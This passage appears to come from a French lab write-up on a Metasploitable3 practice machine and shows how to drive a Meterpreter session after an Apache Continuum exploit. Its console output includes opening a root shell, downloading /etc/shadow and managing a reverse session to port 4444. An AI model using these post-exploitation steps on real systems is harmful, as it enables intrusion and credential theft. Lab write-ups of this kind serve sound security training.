 Meterpreter est un shell conçu pour Metasploit qui offre de nombreuses fonctionnalités très utiles, par exemple le téléchargement/téléversement de fichiers, des informations sur le système, manipulation des processus, etc.

On peut voir les commandes disponibles dans le shell meterpreter en faisant `help`.

Pour lancer une invite de commande minimaliste sur l’hôte distant, on peut utiliser la commande `shell` (puis ensuite `exit` pour revenir à `meterpreter`):

```zsh
meterpreter > shell
Process 19551 created.
Channel 1 created.
whoami
root
cd /etc/
pwd
/etc
exit
meterpreter >
```

On peut télécharger des fichiers avec `download`:
```zsh
meterpreter > download /etc/shadow
[*] Downloading: /etc/shadow -> shadow
[*] Downloaded 1.21 KiB of 1.21 KiB (100.0%): /etc/shadow -> shadow
[*] download   : /etc/shadow -> shadow
meterpreter >
```

La commande `background` permet de retourner à l’invite _msf_; `sessions` affiche les sessions actives et `sessions` suivi d’un nombre retourne à une session mise en arrière-plan:

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(linux/http/apache_continuum_cmd_exec) > sessions

```zsh
Active sessions
===============

  Id  Name  Type        Information                  Connection
  --  ----  ----        -----------                  ----------
  1         meterpreter root@metasploitable3-ub1404  192.168.229.129:4444 ->                              
                                                     192.168.229.132:56584 

msf6 exploit(linux/http/apache_continuum_cmd_exec) > sessions 1
[*] Starting interaction with 1...

meterpreter >
```

### Port 80
